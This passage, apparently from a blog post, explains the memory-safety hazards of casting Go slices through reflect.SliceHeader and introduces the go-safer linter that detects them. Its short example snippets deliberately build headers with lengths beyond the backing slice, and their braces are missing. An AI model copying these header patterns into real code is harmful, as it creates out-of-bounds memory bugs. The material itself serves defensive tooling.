%        When setting the Data field, the slice length and capacity should be zero as noted in point 3. This is because if the
%        target slice has a length greater than the source slice / string, and the garbage collector triggers right after
%        changing the Data field but before adjusting the Len and Cap fields, the slice would momentarily reach into
%        invalid memory. When the slice is of a type containing references, such as a struct, the garbage collector must go
%        through the slice to recursively mark the referenced objects, and if the length is set too high it will do so on invalid
%        memory. If the length is just zero, this won't happen. However, in order to ensure the referenced objects itself are not
%        freed it is imported to still have them referenced by the original slice / string. This is ensured by the call to
%        runtime.KeepAlive as stated in point 5.
%
%        Setting Len after Cap ensures that the slice never has a capacity lower than its length, which would be an illegal
%        state.
%
%        The takeaway of this should be that it is very very difficult to get this cast right and safe, and therefore this type
%        of in-place cast should better not be used at all.
%
%
%        Introducing a static code analysis tool!
%
%        Unfortunately, the go vet -unsafeptr will not catch this common type of unsafe.Pointer misuse. I developed a Vet-style
%        analysis pass that is able to catch it:
%
%% github jlauinger/go-safer no-readme %
%
%        This linter / static code analysis tool will catch the following situations:
%
%        1. There is a reflect.StringHeader or reflect.SliceHeader composite literal. It might also be contained within
%        another composite literal.
%        2. There is an assignment to the fields of a composite object of type reflect.StringHeader or reflect.SliceHeader,
%        and that object is not definitely derived by cast.
%
%        The first situation is fairly easy to detect and almost always unsafe. The linter tool will catch type aliases too. That
%        is, if you define
%
%        go
%        type MysteryType reflect.SliceHeader
%
%
%        and then do
%
%        go
%        source := make([]byte, 1, 1)
%        myHeader := MysteryTypeLen: 42, Cap: 42, Data: uintptr(unsafe.Pointer(source))
%
%
%        the linter will catch the MysteryType composite literal just as if it were a direct SliceHeader literal.
%
%        The second situation is more difficult. It analysis all assignments and uses the same mechanism to catch type aliases
%        for the object receiving the assignment as well. To determine whether it is a safe header derived from a cast, the pass
%        depends on the ctrlflow pass, receiving the control flow graph for the package. It finds the function containing the
%        assignment. Then, starting from the assignment the linter follows the graph backwards to the last assignment to the
%        object of SliceHeader or StringHeader type, and determines if that assignment is a cast from unsafe.Pointer, which
%        in turn itself is cast from a slice or string.
%
%        This means it will catch situations like these:
%
%        go
%        type MysteryStruct struct
%        MysteryHeader reflect.SliceHeader
%
%
%        func main()
%        myStruct := MysteryStruct
%        myStruct.MysteryHeader.Len = 42
%
%
%
%        The linter will figure out that the SliceHeader instance contained within the MysteryStruct has not been set by a
%        cast and issue a warning.
%
%
%
